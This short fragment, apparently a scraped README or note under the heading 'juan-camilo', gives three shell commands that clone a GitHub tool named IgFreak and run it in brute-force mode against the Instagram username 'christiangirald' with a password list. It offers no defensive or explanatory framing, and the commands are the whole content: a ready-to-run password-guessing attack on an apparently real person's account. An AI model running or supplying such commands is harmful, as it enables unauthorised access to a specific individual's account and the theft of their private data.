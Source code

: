 # juan-camilo
git clone https://github.com/T-Dynamos/IgFreak
cd IgFreak
python3 igfreak.py --bruteforce -u [christiangirald] -pl [passlist]
